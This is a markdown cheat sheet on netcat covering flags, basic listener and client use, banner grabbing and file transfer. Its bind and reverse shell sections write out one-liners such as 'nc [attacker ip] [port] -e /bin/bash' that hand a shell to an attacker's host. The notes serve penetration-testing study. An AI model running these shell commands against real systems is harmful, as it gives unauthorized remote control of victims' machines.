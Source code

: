 # Netcat

* TCP protocol
* no encryption for data transmitted

#### netcat important parameters

> -l: Listen mode  
> -e: Program to execute after connection occurs  
> -n: Don't perform DNS lookups on names of machines on the other side  
> -v: verbose, printing out messages on Standard Error, such as when a connection occurs

#### Basic usage

##### Fundamental Client \(\#1\)

> nc \[ip address\] \[port\]

##### Fundamental Listener \(\#2\)

> nc -l -p \[port\]

#### Backdoor Shell

##### Bind Shell

Bind shell is a type of shell in which the target machine opens up a communication port or a listener on the victim machine and waits for an incoming connection. The **attacker then connects to the victim** machine’s listener which then leads to code or command execution on the server.

![](/assets/bind_shell.png)

###### netcat client (#1) on **attacking machine** to access the shell

######Command Execute on Victim Machine
######Linux
> nc -l -p \[port\] -e /bin/bash

######Windows
> C:\> nc -l -p \[port\] -e cmd.exe

##### Reverse Shell

A reverse shell is a type of shell in which the target machine **communicates back** to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.

![](/assets/reverseshell.png)

###### netcat listener (#2) on **attacking machine** to capture the shell

######Command Execute on Victim Machine
######Linux
>nc \[attacker ip\] \[attacker listen port\] -e /bin/bash

######Windows
> C:\> nc \[attacker ip\] \[attacker listen port\] -e cmd.exe

#### TCP Banner Grabbing

> echo "" \| nc -v -n -w1 \[IP Address\] \[Ports\]
>
> echo -e "HEAD / HTTP/1.0\n\n" \| nc 192.168.2.22 80

#### Transferring a File

##### Push a file from client to listener

Receiving ends:

> nc -l -p \[port\] **&gt;** \[filename to be saved\]

Sending ends:

> nc -w3 \[ip address\] \[port\] **&lt;** \[file to be send\]

##### Pull a file from listener back to client

File host:

> nc -l -p \[port\] &lt; \[file to be pulled\]

Pulling ends:

> nc -w3 \[ip address\] \[port\] **&gt;** \[file to be retrieve\]


